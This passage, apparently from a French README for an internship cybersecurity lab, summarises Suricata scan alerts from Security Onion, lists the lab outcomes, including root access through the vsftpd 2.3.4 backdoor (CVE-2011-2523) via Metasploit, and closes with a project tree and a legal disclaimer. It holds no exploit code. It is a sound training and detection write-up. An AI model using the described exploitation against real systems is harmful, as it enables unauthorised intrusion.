

### 5.2 Alertes sur les Ports de Bases de Données

Security Onion a également détecté des tentatives de scan sur des ports de bases de données, générées lors du scan complet de Nmap.

**Alertes Suricata détectées :**

| Count | Moteur | Règle déclenchée |
|---|---|---|
| 1 | suricata | ET SCAN Potential VNC Scan 5800-5820 |
| 1 | suricata | ET SCAN Suspicious inbound to MSSQL port 1433 |
| 1 | suricata | ET SCAN Suspicious inbound to Oracle SQL port 1521 |
| 1 | suricata | ET SCAN Suspicious inbound to PostgreSQL port 5432 |
| 1 | suricata | ET SCAN Suspicious inbound to mySQL port 3306 |

> **Observation :** Security Onion corrèle automatiquement les événements et signale que l'activité malveillante précédente depuis la même source peut indiquer une menace persistante.

---

## 📊 Résultats et Conclusions

| Objectif | Statut |
|---|---|
| Configuration de l'environnement virtuel | ✅ Réussi |
| Connectivité réseau entre les machines | ✅ Validée |
| Scan de reconnaissance Nmap | ✅ Effectué |
| Exploitation vsftpd 2.3.4 backdoor | ✅ Réussie |
| Accès root sur la cible | ✅ Obtenu |
| Détection par Security Onion | ✅ Configurée |

---

## 🎓 Compétences Acquises

- Configuration d'un environnement de lab cybersécurité sous VirtualBox
- Maîtrise de Nmap pour la reconnaissance réseau
- Utilisation du Metasploit Framework pour l'exploitation de vulnérabilités
- Compréhension des vulnérabilités critiques (backdoor vsftpd CVE-2011-2523)
- Mise en place et utilisation de Security Onion comme plateforme SOC
- Analyse de trafic réseau et détection d'intrusions

---

## 📁 Structure du Projet

```
📦 stage-icp-cybersecurite/
├── 📄 README.md
├── 📂 docs/
│   ├── rapport_stage.pdf
│   └── plan_adressage.png
├── 📂 screenshots/
│   ├── 01_plan_adressage_IP.png
│   ├── 02_ping_metasploitable.png
│   ├── 03_ping_security_onion.png
│   ├── 04_nmap_scan.png
│   ├── 05_msfconsole_demarrage.png
│   ├── 06_search_vsftpd.png
│   ├── 07_set_rhosts.png
│   ├── 08_shell_access_ls.png
│   ├── 09_filehacker_creation.png
│   ├── 10_permission_denied.png
│   ├── 11_apres_permissions.png
│   ├── 12_boucle_infinie.png
│   ├── 13_security_onion_alerte_nmap.png
│   └── 14_security_onion_alertes_bdd.png
└── 📂 configs/
    └── network_config.md
```

---

## 👤 Auteur

**Salma** — Stagiaire en Cybersécurité
📍 Groupe OCP — Khouribga, Maroc
🗓️ Stage réalisé en 2025

---

## ⚠️ Avertissement Légal

> Ce projet est réalisé dans un **cadre éducatif strictement contrôlé**. Toutes les attaques sont effectuées sur des machines virtuelles isolées, avec l'accord explicite de l'organisme d'accueil. L'utilisation de ces techniques sur des systèmes sans autorisation est **illégale et punissable par la loi**.


